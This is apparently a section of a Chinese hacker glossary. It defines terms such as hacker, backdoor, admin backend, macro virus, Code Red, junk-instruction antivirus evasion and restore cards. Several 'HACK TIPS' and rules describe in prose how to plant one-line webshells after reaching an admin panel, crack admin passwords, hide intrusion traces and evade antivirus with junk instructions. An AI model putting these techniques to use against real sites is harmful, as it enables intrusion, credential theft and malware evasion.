

## 黑客 特定名称

黑客是一种为寻求纯粹智力挑战而痴迷于计算机的人。这个词适合用在那些为计算机全身心投入的天才身上。有一个很好但有点夸张的描绘是，即使他们有机会在海滩上度过几个星期，也会用沙子制造出一台计算机，并写出整个操作系统和全部工具。

遗憾的是，媒体往往使用这个词来形容那些使用计算机进行犯罪活动的人。真正的黑客能做到的最坏的事情恐怕就是不如拒绝洗澡，或者将车停在不该停的地方。

**黑客信条中最重要的就是追求共享、免费、提倡自由、平等**。黑客的存在是由于计算机技术的不健全，从某种意义上来讲，计算机的安全需要更多黑客去维护。也就是某位黑客所说的：“黑客存在的意义就是使网络变得日益安全完善”。

**一个黑客即使从意识和技术水平上已经达到黑客水平，也决不会声称自己是一名黑客，因为黑客只有大家推认的，没有自封的，他们重视技术，更重视思想和品质。**

## 【黑客守则】特定名称

- 1、不要恶意破坏任何的系统，这样只会给你带来麻烦。
- 2、不修改任何的系统文件，如果你是为了要进入系统而修改它，请在达到目的后将它改回原状。
- 3、不要轻易地将你要 hack 的站告诉你不信任的朋友。
- 4、不要在 BBS 上谈论你 hack 的任何事情。
- 5、在发表文章的时候不要使用真名。
- 6、正在入侵的时候，不要随意离开你的电脑。
- 7、不要侵入或破坏政府机关的主机。
- 8、不要在电话中谈论你 hack 的任何事情。
- 9、将你的笔记放在安全的地方。
- 10、不要将已侵入电脑中的账号清除或改写。
- 11、不要修改系统文件，除非为了隐藏自己的入侵痕迹，但仍须维持原来系统的安全性。
- 12、不将你已破解的账号分享于你的朋友。

## 【黑客必备工具包】黑客工具

此工具包将常用的黑客工具集成在一起，方便了使用和管理。常见的工具一般包括扫描工具、后门与木马、漏洞利用 EXP、密码破解等。网络上有多款已经整理好的黑客工具包，如图 H-3，为常见的一款黑客工具包，叫“音速启动”。



## 【黑雨】黑客工具

一款用来【暴力破解】POP3 邮箱协议的工具，如图 H-4。它使用深度算法、广度算法、多线程深度算法来穷解邮箱算法，速度较快，也可以利用【字典】进行破解。

## 【红枫叶键盘记录器】黑客工具

一款可以根据设置的窗口标题关键词去获取指定窗口的键盘输入的程序，可以利用它对特定的软件或游戏的密码进行窃取。



## 宏 特定名称

宏用于建立一些简单的定制动作或任务，可以代替使用者执行繁琐的操作。一个宏是一系列命令的组成，并按顺序执行。宏在许多方面都有应用，像大名鼎鼎的 Office 中，微软为 Excel 与 Word 都设置了宏，目的是让用户文档中的一些任务自动化。甚至连网络游戏《魔兽世界》都有宏，其中的宏利用现成游戏中的动作去定制动作或任务。



如果在 Word 中重复进行某项工作，可用宏使其自动执行。宏是将一系列的 Word 命令和指令组合在一起，形成一个命令，以实现任务执行的自动化。您可创建并执行一个宏，以替代人工进行一系列费时而重复的 Word 操作。

- 以下是宏的一些典型应用：
- 加速日常编辑和格式设置
- 组合多个命令
- 使对话框中的选项更易于访问
- 使一系列复杂任务自动执行

Word 提供了两种创建宏的方法：宏录制器和 Visual Basic 编辑器。宏录制器可用来开始创建宏，Word 在 Visual Basic for Applications 编程语言中把宏录制为一系列的 Word 命令，可在 Visual Basic 编辑器中打开已录制的宏，修改其中的指令，也可用 Visual Basic 编辑器创建包括 Visual Basic 指令在内的、非常灵活和强有力的宏。一般可将宏保存到模板或文档中，在默认情况下，Word 将宏存储在 Normal 模板中，以便所有的 Word 文档均能使用。注意这一特点，它几乎为所有的宏蠕虫所利用。

## 宏病毒 病毒与恶意软件

宏病毒是一种寄存在文档或模板的宏中的计算机病毒。一旦打开这样的文档，其中的宏就会被执行，于是宏病毒就会被激活，转移到计算机上，并驻留在 Normal 模板上。从此以后，所有自动保存的文档都会“感染”上这种宏病毒；如果其他用户在自己的电脑上打开了感染病毒的文档，宏病毒又会转移到他的计算机上。

如果某个文档中包含了宏病毒，就称此文档感染了宏病毒；如果 Word 系统中的模板包含了宏病毒，则称 Word 系统感染了宏病毒。

## 后门 黑客技术基础

后门一般分为两种类型，一种是程序类的后门，另一种是系统类的后门。程序类的后门是指绕过安全措施而获取对程序的访问与修改权的方法。在软件的开发阶段，程序员常会在软件内创建后门，以便可以修改程序中的缺陷。如果后门被其他人知道，或是在发布软件之前没有删除后门，那么它就成了安全风险。

系统类的后门则是攻击者为了再次进入被入侵的主机而安装的程序。攻击者可能花费了很长时间才攻破某一系统，为了以后随时可以方便地访问该系统，一般都会留下后门。这个后门不仅要做到访问系统时方便，而且还要考虑其隐蔽性，否则也很快会被管理员发现。而系统类后门也可以分为简单后门和内核级后门（LKM Rootkit）。

简单后门的代表有 Winshell，内核级后门代表有 Hack Defender，而且木马在一定意义上也可以称为后门。

## HACK TIPS:

随着技术的发展，很多后门逐渐有了木马的特征，而木马也逐渐取代了后门的功能。更是因为木马强大的功能，使得国内现在有很多人都是直接用木马来控制服务器。

## 后台 黑客技术基础

后台是许多脚本程序与论坛对其管理页面的俗称。后台可以让网站的管理人员更容易地管理文章，添加并且删除信息。对于【整站程序】来说，后台可以进行添加新闻或是链接等操作，而对于论坛，后台则可以管理各板块或者直接对数据库进行操作。

在入侵过程中，后台是至关重要的一个据点，能够拿到【后台权限】并且进入后台，这会大大增加入侵成功的几率。如图 H-6，为动网 8.0 的后台页面。



图 H-6

## HACK TIPS:

关于进入后台后继续扩大成果，对于各种程序都有不同的方法。一般来说，如果进入后台后，发现数据库是 ACCESS，并且又是以 ASP 存储的话，便可以试着插入【一句话木马】。如果不是，便试着用备份数据的功能，在插入一句话木马后，再备份成 ASP（CER 一样可以），接着进行访问。

当然，还可以将数据库下载下来，把管理员的密码暴力破解。如果可以得到密码，则试着进入其他敏感区域，如邮箱、QQ 等。如果对方的数据库是 MSSQL 或 MySQL，看是否有直接执行 SQL 语句的页面，如有的话，可直接执行 SQL 攻击语句。

## 后台权限 黑客技术基础

即可以管理后台的【权限】。很多程序的后台权限都分得很细，一般只有最高级别的管理员才能对一些敏感区域进行操作。在入侵的过程中，想要进入后台就必须得到足够的后台权限，这样才能进一步地进行入侵。譬如更改上传文件类型、上传 ASP 木马，或者找到合适的地方插入一句话木马，再进行数据库备份得到一句话木马。得到后台权限的方式也是多种多样的，比如通过 SQL 注入查询到后台的管理密码，或者通过 Cookies 及 Session 欺骗进入后台。

## 活动目录 操作系统及其相关

Windows 2000 一个最大的创新之处就是引入了 Active Directory（活动目录），活动目录在网络的组织和管理方面起到了巨大的作用。

在计算机网络术语中，目录代表存储网络上对象信息的一种层次结构。网络上的对象包括共享资源（例如服务器、打印机、网络用户以及计算机账号等）、域、应用程序、服务、安全方针等等，在你的网络中的一切事物。一个最典型的例子就是一个网络目录存储一个用户账号时，它存储了用户的姓名、密码、电子邮件地址、电话号码等等。

目录服务区别于目录的地方在于，目录服务能够把目录中存储的信息提供给管理员、用户、网络服务或应用程序。目录服务标记管理网络中的所有实体资源（比如计算机、用户、打印机、文件等），并且提供了命名、描述、查找、访问以及保护这些实体信息一致的方法，使网络中的所有用户和应用都能访问到这些资源。

而活动目录，是 Windows 2000 服务器版操作系统的一种新的目录服务，它除了能够提供存储信息的场所、服务以使信息可用外，还可以保护网络对象不被非授权用户进入，通过网络复制对象以便在域控制器崩溃时数据不会丢失。

目录存储在被称为域控制器的服务器上，并且可以被网络应用程序或者服务所访问。一个域可能拥有一台以上的域控制器，每一台域控制器都拥有它所在域的目录的一个可写副本。对目录的任何修改都可以从源域控制器复制到域、域树或者域林中的其它域控制器上。由于目录可以被复制，而且所有的域控制器都拥有目录的一个可写副本，所以用户和管理员便可以在域的任何位置方便地获得所需的目录信息。

但正因如此，活动目录也就成为一个重要的信息泄漏源！当攻击者试图收集关于某远程系统的各种信息时，该系统的活动目录无疑会成为他的一个重要攻击对象。

## 花刺代理验证：黑客技术基础

一款代理类软件，如图 H-7，可以用它突破 GFW 的封锁来浏览国外网站，使用比较方便，验证结果可靠，智能程度高，尤其适合科研教育网用户使用。



## 花蝴蝶免杀加花正式版：黑客工具，免杀技术

此程序专门用于给程序加花指令，如图 H-8，有四种花可选择，可自定义区段名和区段大小。

## 花指令：免杀技术

花指令有时也被称为乱指令或废指令，其基本思想就是加上多余但不改变文件结构的指令，而且保持【堆栈】的平衡。具体地说，花指令就是几句汇编指令，让汇编语句进行一些跳转。花指令在免杀与反编译上都有很大的用途。



举个简单例子，我们可以在程序的一些地方加上一些跳转（JMP）语句，让其跳至其他地方，再跳回来。或者对【堆栈】进行废操作，即先压栈再出栈，或者让【指针】寄存器加 1 后再减 1 等。

**加花指令的确没有改变特征码的位置，但它改变了程序执行顺序，有的也能改变文件结构。**这样杀毒软件扫描时，跳到花指令处，即判断没有病毒。通常情况下，在文件免杀的时候，加花指令是最简单有效的方法，而且一般能通杀很多杀毒软件，所以一般文件免杀通用此法。当然，前提是你的花指令不是常用的，最好能自己做出你个人的花指令，才会更有效。

## 红色代码蠕虫 病毒与恶意软件

“红色代码”蠕虫是一种新型网络病毒（俗称蠕虫），其传播所使用的技术可以充分体现网络时代网络安全与病毒的巧妙结合。它将网络病毒、计算机病毒、木马程序合为一体，开创了网络病毒传播的新思路，可称之为划时代的病毒。“红色代码”蠕虫是通过 IIS 的溢出漏洞进行感染的，蠕虫驻留后再次通过此漏洞感染其它服务器。这个蠕虫之所以影响广大，是因为它使用的是 80 端口进行传播，而这个端口正是 Web 服务器与浏览器进行信息交流的渠道。

“红色代码”不同于以往的文件型蠕虫和引导型蠕虫，它并不将蠕虫信息写入被攻击服务器的硬盘，它只存在于内存，传染时不通过文件这一常规载体，而是借助这个服务器的网络连接攻击其它的服务器，直接从一台电脑内存传到另一台电脑内存。当本地 IIS 服务程序收到某个来自“红色代码”发送的请求数据包时，由于存在漏洞，导致处理函数的堆栈溢出。当函数返回时，原返回地址已被蠕虫数据包覆盖，程序运行线路跑到蠕虫数据包中，此时蠕虫被激活，并运行在 IIS 服务程序的堆栈中。

“红色代码 II”蠕虫代码首先会判断内存中是否已注册了一个名为 CodeRedII 的 Atom（系统用于对象识别），如果已存在此对象，表示此机器已被感染，蠕虫进入无限休眠状态；未感染则注册 Atom 并创建 300 个蠕虫线程。

当判断到系统默认的语言 ID 是中华人民共和国或中国台湾时，线程数猛增到 600 个。创建完毕后初始化蠕虫体内的一个随机数发生器，此发生器产生用于蠕虫感染的目标电脑 IP 地址。每个蠕虫线程每 100 毫秒就会向一随机地址的 80 端口发送一长度为 3818 字节的蠕虫传染数据包，巨大的蠕虫数据包使得网络陷于瘫痪。

“红色代码 II”蠕虫体内还包含一个木马程序，这意味着计算机黑客可以对受到入侵的计算机实施全程遥控，并使得“红色代码 II”拥有前身无法比拟的可扩充性，只要蠕虫作者愿意，随时可更换此程序来达到不同的目的。

## 黑色产业链 特定名称

**黑色产业链是随着黑客技术滥用而出现的一个新词语，它是由一个个利用黑客技术通过非法途径获取暴利的行为组成的。**因为想利用黑客技术赚黑钱，必须环环相扣，并且任何一个环节都不能少。

黑色产业链环环相扣，基本流程如下：

- 1. 贩卖 WEBSHELL

这是黑色产业链形成初期最流行的一种方式，这也成了以后大部分黑色产业链的基础。当有人拿下某个网站时，就会将此站点的 WEBSHELL 出售给那些有需要的人，而这些有需要的人往往就是修改这些站点的页面，进行钓鱼或者插入网页木马。

- 2、大范围种植木马，贩卖【肉鸡】

当有了上面的 WEBSHELL 后，就可以控制一个网站。如果此网站流量不错，就可以在首页种植网页木马，访问者访问此网站后自动运行木马，成为种植者的肉鸡。当肉鸡达到一定数量时就可以找买家卖掉，价格每台在 1-5 元不等，如果某种植者能得到十万只肉鸡，那月入十万也就不是问题了。而这类行为的最大收益者除了种植者外，就是木马的编写者，灰鸽子就是其中的代表。

- 3、伪造邮件【钓鱼】

当买家买到数量可观的肉鸡时，他就可以做很多事了，最基本的就是大量发送垃圾邮件进行钓鱼。这种骗术虽然低劣，但当数量达到一定程度时，效果还是相当可观的。

- 4、刷流量，贩卖 Q 币及游戏装备

这一种行为应该是大多数无辜网民电脑的最终归宿了，他们为那些肉鸡的控制者提供了大量的流量，可以让他们在不知不觉中访问无数广告链接，将自己的 QQ 密码与网游密码全部奉上。然后那些肉鸡控制者便依据情况进行交易，以获取暴利。

- 5、进行【分布式拒绝服务攻击】

这种行为应该说是最丑恶的利用方式了，大量的无辜网民就这样沦为肉鸡控制者的傀儡，对他们的目标进行攻击。这些人可以只是报复，但更多的是敲诈，这样的例子在现在比比皆是。

在笔者看来，黑色产业链真正形成规模应该是在 2004 年以后，从此一直呈增长趋势。但随着政府的愈发重视，相信这种丑恶的行为应该不会继续存在太久。

## 还原 特定名称

近几年新兴的计算机保护措施，即将计算机内所有文件与设置还原至指定状态。这样可以在一定程度上防止病毒与木马的攻击，此技术广泛用于网吧与各大机房，常用的方法分为软件还原与硬件还原。软件还原是指用程序来还原计算机系统，例如还原精灵；硬件还原主要是指用还原卡进行还原。

## 还原精灵 应用程序

一种用于系统还原的软件，GUI 界面，操作较为友好，如图 H-9。



## 还原卡 安全技术

硬盘还原卡也称硬盘保护卡，如图 H-10，它主要的功能就是还原硬盘上的数据。每一次开机时，硬盘保护卡总是让硬盘的部分或者全部分区能恢复先前的内容。换句话说，任何对硬盘受保护分区的修改都无效，这样就起到了保护硬盘数据内容的作用。



硬盘保护卡的原理简单地讲，就是它接管对硬盘进行读写操作的一个 INT13 中断。保护卡在系统启动的时候首先用它自己的程序接管 INT13 中断地址，这样，只要是对硬盘的读写操作都要经过保护卡的保护程序进行保护性的读写。也就是先将 FAT 文件分配表、硬盘主引导区、CMOS 信息、中断向量表等信息都保存到保护卡内的临时存储单元中，用来应付我们对硬盘内数据的修改。每当我们向硬盘写入数据时，其实还是完成了写入到硬盘的操作，可是没有

## H 黑客词典

真正修改硬盘中的 FAT，而是写到了备份的 FAT 表中，这就是为什么系统重启后所有写操作一无所有的原因了。

还原卡的主体是一种硬件芯片，插在主板上与硬盘的 MBR（主引导扇区）协同工作。大部分还原卡的原理都差不多，其加载驱动的方式十分类似 DOS 下的引导型病毒：接管 BIOS 的 INT 13 中断，将 FAT、引导区、CMOS 信息、中断向量表等信息都保存到卡内的临时存储单元中，或是在硬盘的隐藏扇区中，再用自带的中断向量表来替换原始的中断向量表；接着另外将 FAT 信息保存到临时存储单元中，用来应付我们对硬盘内数据的修改；最后是在硬盘中找到一部分连续的空磁盘空间，然后将我们修改的数据保存到其中。

硬盘保护卡在学校的机房管理中占有很重要的地位，基本上达到了“一卡无忧”的目标。使用硬盘保护卡后极大地减少了机房的维护，基本无需担心病毒、误操作等问题。当然，如果硬盘发生了物理性损坏，硬盘保护卡是无能为力的。它在教育、科研、设计、网吧等单位使用较多，可以让电脑硬盘在大多数情况下（非物理损坏）恢复到最初的样子。换句话说，不管是病毒、误改、误删、故意破坏硬盘的内容等，都可以轻易地还原。

## 环境变量  操作系统及其相关

环境变量相当于是给系统或用户应用程序设置的一些变量，具体起什么作用这当然和具体的环境变量相关。比如 path 这个变量可以告诉系统，当要求系统运行一个程序而没有告诉它程序所在的完整路径时，系统除了在当前目录下寻找此程序外，还应到哪些目录下去找。

